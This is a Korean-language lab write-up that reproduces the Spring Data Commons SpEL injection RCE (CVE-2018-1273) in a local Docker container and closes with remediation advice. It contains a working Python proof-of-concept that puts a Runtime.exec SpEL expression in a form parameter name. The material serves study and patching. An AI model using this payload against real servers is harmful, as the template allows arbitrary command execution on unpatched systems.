

# Spring Data Commons Remote Code Execution (CVE-2018-1273)

본 환경은 Spring Data Commons 라이브러리에서 발생하는 SpEL(Spring Expression Language) 인젝션 기반의 원격 코드 실행(RCE) 취약점을 분석하고 재현하기 위해 구축되었다. 

---

## 1. 취약점 요약
- **CVE 식별자:** CVE-2018-1273
- **취약점 유형:** SpEL Injection / Remote Code Execution (RCE)
- **영향을 받는 버전:**
     - Spring Data Commons 1.13 ~ 1.13.10
    - Spring Data Commons 2.0 ~ 2.0.5
  
- **취약점 개요:** 사용자가 제출한 HTTP 요청 파라미터를 자바 객체의 속성에 자동으로 매핑하는 **데이터 바인딩(Data Binding)** 과정에서 결함이 발생한다. 
취약한 버전의 Spring Data Commons는 파라미터 이름을 해석할 때 제한이 없는 `StandardEvaluationContext`를 사용하여 악성 SpEL 수식을 그대로 파싱 및 실행한다. 
이를 통해 공격자는 취약한 애플리케이션 프로세스의 실행 권한 범위 내에서 임의의 운영체제 명령을 실행할 수 있으며, 프로세스가 높은 권한으로 실행되는 경우 시스템에 심각한 영향을 미칠 수 있다.
---

## 2. 취약한 환경 구성 


### docker-compose.yml
```yaml
services:
  web:
    image: vulhub/spring-data-commons:2.0.5
    ports:
      - "8080:8080"
```

### 서버 구동 확인 


`docker compose` 명령어로 서버를 켠 뒤, 웹 브라우저를 열고 `http://localhost:8080/users`에 접속하여 서버가 정상 작동하는지 확인한다. 

#### [수행 단계 1]
- docker-compose.yml 파일 작성 
- 도커 컨테이너 빌드 및 실행 
`docker compose up -d --build`

----

## 3. 취약점 재현
본 취약점은 HTTP 요청 파라미터를 객체에 바인딩하는 과정에서, 조작된 파라미터 이름이 SpEL 표현식으로 평가되는 문제를 악용한다.

데이터 바인딩의 대상이 되는 username 파라미터의 키(Key) 값 자리에 조작된 악성 SpEL 구문을 주입하여 서버가 시스템 명령어를 강제로 실행하도록 유도한다. 


### PoC 스크립트 (vulhub.py)
 ```python
import requests

url = "http://localhost:8080/users"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

payload = {
    "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')]": "test",
    "password": "test",
    "repeatedPassword": "test"
}

print("[*] Sending exploit payload to Spring Data Commons...")
response = requests.post(url, data=payload, headers=headers)

print("[*] Request Sent. Server Response Status:", response.status_code)
print("[*] Please verify inside the container using: docker compose exec web ls -l /tmp/success")
```
데이터 바디의 딕셔너리 구조 내 파라미터명 자체에 SpEL 인젝션을 유발하는 POST 요청을 전송한다. 
`"username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')]": "test"`
- 해당 페이로드는 username 파라미터의 이름에 악성 SpEL 표현식을 삽입하여, 서버 내부에서 touch /tmp/success 명령어가 실행되도록 유도한다.

### 공격 실행 
 PoC 스크립트를 `python vulhub.py`로 실행한다. 
#### [수행 단계 2]
-  `pip install requests `를 통해 필요한 라이브러리 설치
- `python vulhub.py` 작성 
- `python vulhub.py` 명령어로 공격 실행


조작된 요청 처리 과정에서 서버 내부 오류가 발생하여 HTTP 500 응답이 반환되었다. 

단, HTTP 응답 코드만으로 명령 실행 성공 여부를 판단할 수 없으므로, 컨테이너 내부에서 /tmp/success 파일의 생성 여부를 확인하여 임의 명령 실행 성공을 검증한다.

--- 
## 4. 공격 결과
### /tmp/success 파일 확인 
#### [수행 단계 3]
- `docker compose exec web ls -l /tmp/success` 명령어로 /tmp/success 파일 존재 여부를 확인


`-rw-r--r-- 1 root root 0 ... /tmp/success` 라는 파일 상세 정보가 출력 되었고, 이를 통해 SpEL 코드가 서버 운영체제 내부에서 touch /tmp/success라는 리눅스 명령어를 실행시켰음을 확인할 수 있다. 
- 본 실습에서는 생성된 /tmp/success 파일의 소유자가 root로 확인되었으며, 이는 공격을 통해 실행된 명령이 컨테이너의 root 권한으로 수행되었음을 보여준다. 


## 5. 방어 대책

SpEL 인젝션 취약점을 원천 차단하고 인프라 보안을 강화하기 위해 다음과 같은 단계별 조치를 수행해야 한다 

#### 5.1. 라이브러리 및 프레임워크 버전 업데이트 
> 취약점이 해결된 안정적인 상위 버전 라이브러리로 업데이트한다. 
- Spring Data Commons 1.13 ~ 1.13.10 → 1.13.11.RELEASE 이상
- Spring Data Commons 2.0 ~ 2.0.5 → 2.0.6.RELEASE 이상

#### 5.2. 외부 입력값을 객체에 자동 바인딩하는 기능 제한
> 외부 요청 파라미터가 불필요한 객체 속성에 바인딩되지 않도록 허용 필드를 명시하고, 파라미터의 이름과 값을 검증하여 비정상적인 입력을 제한한다. 이를 통해 악성 입력이 데이터 바인딩 과정에서 처리될 가능성을 줄일 수 있다. 

단, 이는 공격 표면을 줄이는 보완 대책이며 취약한 라이브러리의 버전 업데이트를 대체할 수 없다.

#### 5.3. 최소 권한 원칙 적용
> 데몬 실행 계정을 root에서 최소 권한의 일반 사용자 계정으로 변경하여, 취약점 악용 시 시스템 권한 탈취 및 피해 범위를 최소화한다. 